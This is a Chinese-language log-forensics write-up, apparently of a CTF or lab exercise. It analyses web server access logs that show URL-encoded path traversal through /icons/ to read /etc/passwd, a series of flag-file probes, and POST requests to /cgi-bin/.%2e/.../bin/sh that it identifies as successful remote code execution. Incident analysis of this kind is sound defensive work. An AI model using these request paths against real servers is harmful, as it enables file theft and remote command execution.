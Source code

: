 
**通过 `/icons/`路径的攻击**：

```bash
10.37.133.2 - - [25/May/2025:07:39:25 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1" 200 1126 "-" "curl/8.7.1"
```

* **攻击特征**: 使用 `%2e%2e`（URL编码的 `..`）进行路径遍历
* **目标文件**: `/etc/passwd`系统用户文件
* **状态码**: `200` - **攻击成功**，返回了1126字节的文件内容
* **攻击工具**: `curl/8.7.1`

2. Flag文件搜索尝试

攻击者系统性地搜索flag文件的常见位置：

```bash
10.37.133.2 - - [25/May/2025:07:39:30 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:34 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/tmp/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:39 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/www/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:48 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:56 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/www/html/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:00 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt HTTP/1.1" 404 437 "-" "curl/8.7.1"
```

**攻击模式分析**：

- **系统性搜索**: 攻击者按顺序尝试了多个可能的flag位置
- **状态码**: 全部返回 `404 Not Found`，说明这些位置没有flag文件
- **时间间隔**: 每次尝试间隔4-8秒，显示为手动或脚本化攻击

3. 远程代码执行(RCE)攻击

**通过CGI路径执行命令**：

```bash
10.37.133.2 - - [25/May/2025:07:40:16 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 188 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:21 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 887 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:26 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 133 "-" "curl/8.7.1"
```

**RCE攻击特征**：

- **攻击路径**: `/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`
- **编码技术**: 混合使用 `.%2e`绕过路径限制
- **HTTP方法**: `POST` - 用于发送命令执行的payload
- **状态码**: `200` - **RCE攻击成功**
- **响应大小变化**: 从133字节到887字节，说明执行了不同的命令
